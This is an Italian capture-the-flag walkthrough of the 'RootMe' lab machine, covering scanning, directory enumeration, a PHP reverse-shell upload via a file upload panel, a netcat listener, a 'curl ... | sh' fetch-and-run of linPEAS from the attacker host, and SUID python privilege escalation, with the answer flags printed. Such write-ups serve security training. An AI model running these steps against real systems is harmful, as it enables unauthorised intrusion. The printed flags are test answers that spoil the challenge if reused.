 # RootMe

RootMe è un Capture The Flag (CTF) di livello facile, progettato per sviluppare competenze avanzate di penetration testing e escalation dei privilegi. Iniziamo il nostro viaggio accedendo alla macchina bersaglio tramite la nostra Kali Linux e avviando una scansione Nmap per esplorare le porte e i servizi disponibili.

```sh
└─$ sudo nmap -p- -sS -A 10.10.152.152
```
![Alt text](image.png)

I risultati della scansione rivelano due porte aperte: la porta 22 per SSH e la porta 80 per HTTP. Queste informazioni ci permettono di rispondere a tre domande fondamentali:

$${\color{red}Scan \space the \space machine, \space how \space many \space ports \space are \space open?
} \space {\color{green}2}$$

$${\color{red}What \space version \space of \space Apache \space is \space running?
} \space {\color{green}2.4.29}$$

$${\color{red}What \space service \space is \space running \space on \space port \space 22?
} \space {\color{green}SSH}$$

Dopo la scansione, ci dirigiamo verso il servizio HTTP sulla porta 80. Nonostante un'animazione accattivante, decidiamo di utilizzare goBuster per individuare eventuali directory nascoste.

![Alt text](image-1.png)

```sh
└─$ gobuster dir -u "http://10.10.152.152:80" -w /usr/share/wordlists/dirb/common.txt
```
![Alt text](image-2.png)

All'interno della directory "/panel/", scopriamo un'area dedicata al caricamento di file, indicando la possibilità di un potenziale exploit. Sfruttando l'ambiente Apache, carichiamo una reverse shell in PHP dopo averla personalizzata con il nostro indirizzo IP e la porta. Successivamente, mettiamo in ascolto con Netcat prima di interagire con la nostra reverse shell attraverso la directory "/uploads/".

$${\color{red}What \space is \space the \space hidden \space directory?
} \space {\color{green}/panel/}$$

[https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php]

![Panel](image-3.png)

![Uploads](image-4.png)

```sh
└─$ nc -lnvp 4444
```
Una volta ottenuto l'accesso al sistema, procediamo alla ricerca del file "user.txt".
![Alt text](image-5.png)

```sh
└─$ find / -name user.txt 2>/dev/null
```
![Alt text](image-6.png)

$${\color{red}user.txt
} \space {\color{green}THM\{y0u\_g0t\_a\_sh3ll\}}$$

Rispondiamo alla prima domanda del Task 4, eseguendo una ricerca dei file con permessi SUID.

```sh
└─$ find / -user root -perm /4000
```
Identificando il file "weird" nella directory "/usr/bin/python", approfondiamo ulteriormente l'analisi. Scarichiamo linPEAS sulla nostra macchina e lo trasferiamo al sistema bersaglio attraverso un server web Python temporaneo e in fine lo eseguiremo.

![Alt text](image-8.png)

$${\color{red}Search \space for \space files \space with \space SUID \space permission, \space which \space file \space is \space weird?
} \space {\color{green}/usr/bin/python}$$

Ora per prendere l'ultima flag devo scalare i privilegi e per farlo mi aiuto con linPEAS.<br>
quindi lo scarico sulla mia macchina da qui
https://github.com/carlospolop/PEASS-ng/releases/tag/20231231-3221ac1a

```sh
└─$ sudo python -m http.server 8000
└─$ curl 10.14.65.216/linpeas.sh | sh
```

L'output di linPEAS evidenzia numerosi riferimenti a "python", aprendo la possibilità di utilizzarlo per leggere il contenuto del file "root.txt" nella directory "/root/".

```sh
└─$ python -c 'print(open("/root/root.txt").read())' 
```
Rispondendo all'ultima domanda del CTF, otteniamo il flag di root:

![Alt text](image-7.png)

$${\color{red}root.txt
} \space {\color{green}THM\{pr1v1l3g3_3sc4l4t10n\}}$$


